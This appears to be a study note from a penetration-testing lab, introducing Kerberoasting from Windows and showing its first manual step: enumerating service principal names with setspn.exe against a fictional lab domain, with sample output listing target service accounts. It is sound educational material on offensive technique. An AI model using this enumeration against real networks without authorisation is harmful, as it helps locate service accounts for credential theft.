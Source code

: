 ```yaml
---
title: b-Kerberoasting from Windows
draft: false
tags:
  - kerberoasting
  - powerview-ps1
  - rubeus
  - setspn
---
```

Before tools like Rubeus was out, Kerberoasting was very complicated. 

Now we can perform Kerberoasting from Windows in many ways.

Let's learn about both manual way and automated tooling way.

# Manual Way
## setspn.exe

setspn is a buit-in binary to enumerate SPNs in the domain.

```cmd-session
C:\htb> setspn.exe -Q */*

Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
        exchangeAB/ACADEMY-EA-DC01
        exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        TERMSRV/ACADEMY-EA-DC01
        TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/ForestDnsZones.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DomainDnsZones.INLANEFREIGHT.LOCAL

<SNIP>

CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        backupjob/veam001.inlanefreight.local
CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        sts/inlanefreight.local

<SNIP>

CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        adfsconnect/azure01.inlanefreight.local

Existing SPN found!
```

